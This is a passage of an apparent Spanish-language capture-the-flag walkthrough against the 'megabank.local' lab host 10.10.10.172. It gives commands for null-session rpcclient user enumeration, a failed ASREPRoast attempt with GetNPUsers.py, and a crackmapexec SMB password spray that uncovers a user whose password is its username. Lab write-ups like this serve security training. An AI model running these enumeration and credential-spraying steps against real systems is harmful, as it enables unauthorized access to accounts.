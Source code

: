 ```bash
catnp /etc/hosts | grep megabank.local
```

<figure><img src="../../../../../.gitbook/assets/962_vmware_ZZYiOozXDi.png" alt=""><figcaption></figcaption></figure>

## Users Enumeration

### RCP Enumeration

Procederemos a realizar una enumeración utilizando **rpcclient** conectándonos en una null session y enumerando a los usuarios. Comprobamos que tenemos acceso y procederemos a que a través de expresiones regulares formatear la salida para que solamente nos muestre los nombres de usuario. Guardaremos el contenido en el archivo "users".

{% code overflow="wrap" %}
```bash
rpcclient -U "" 10.10.10.172 -N -c enumdomusers

rpcclient -U "" 10.10.10.172 -N -c enumdomusers | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users

catnp users
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/963_vmware_H0nKdbHjU4.png" alt=""><figcaption></figcaption></figure>

## ASREPRoast Attack (GetNPUsers.py) - \[FAILED]

Teniendo una lista de nombres de usuarios válidos, nos planteamos en realizar un **ASREPRoast Attack**, pero no obtenemos ningún resultado, debido que ningún usuario tiene el (DONT\_REQ\_PREAUTH) de Kerberos.

```bash
GetNPUsers.py -no-pass -usersfile users megabank.local/ 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/964_vmware_MXrceuJH2m.png" alt=""><figcaption></figcaption></figure>

## Credential Brute Force - Crackmapexec

Procederemos a realizar un ataque de fuerza bruta utilizando **crackmapexec** para que valide por SMB si el listado de usuarios que le pasamos, alguno tiene de contraseña el mismo nombre de usuario. Comprobamos que obtenemos que el usuario "SABatchJobs" tiene de contraseña su mismo nombre de usuario.

```bash
crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/965_vmware_x1ieOnrGuo.png" alt=""><figcaption></figcaption></figure>
